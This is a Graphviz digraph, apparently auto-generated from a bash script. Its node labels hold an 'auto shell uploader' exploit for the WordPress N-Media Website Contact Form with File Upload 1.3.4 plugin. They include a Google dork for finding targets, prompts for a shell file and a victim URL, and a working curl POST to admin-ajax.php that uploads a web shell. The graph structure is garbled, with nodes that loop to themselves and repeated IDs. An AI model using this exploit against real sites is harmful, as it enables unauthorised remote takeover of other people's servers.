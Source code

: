 digraph {
37 [label="\r "];
37 -> 37
37 [label="\r "];
37 -> 37
4 [label="echo \r\n+---------------------------------------------------------------+\r\n|                                                               |\r\n| Wordpress N-Media Website Contact Form with File Upload 1.3.4 |\r\n|                                                               |\r\n+---------------------------------------------------------------+\r\n|                                                               |\r\n|\tScript by\t   : F17.c0de                           |\r\n|\tVuln Discovered by : Claudio Viviani                    |\r\n|\tDate\t\t   : 15.04.2015                         |\r\n|\tGoogle Dork\t   : inurl:/uploads/contact_files/    |\r\n|\tVulnerability\t   : upload_file() on admin-ajax.php  |\r\n|\tDescription\t   : Auto shell uploader                |\r\n|                                                               |\r\n+---------------------------------------------------------------+\r\n|                       No System is Safe                       |\r\n+---------------------------------------------------------------+\r\n\r "];
4 -> 4
37 [label="\r "];
37 -> 37
8 [label="echo -n -e Path of your shell: \r "];
8 -> 8
10 [label="read bd\r "];
10 -> 10
12 [label="echo -n -e Victim address [ex: http://www.victim.com]: \r "];
12 -> 12
14 [label="read st\r "];
14 -> 14
16 [label="sleep 1\r "];
16 -> 16
36 [label="echo\r "];
36 -> 36
20 [label="echo Uploading Shell. . .\r "];
20 -> 20
36 [label="echo\r "];
36 -> 36
37 [label="\r "];
37 -> 37
26 [label="curl -k -X POST -F action=upload -F Filedata=@./$bd -F action=nm_webcontact_upload_file $st/wp-admin/admin-ajax.php\r "];
26 -> 26
37 [label="\r "];
37 -> 37
36 [label="echo\r "];
36 -> 36
36 [label="echo\r "];
36 -> 36
34 [label="echo Job Finished\r "];
34 -> 34
36 [label="echo\r "];
36 -> 36
}
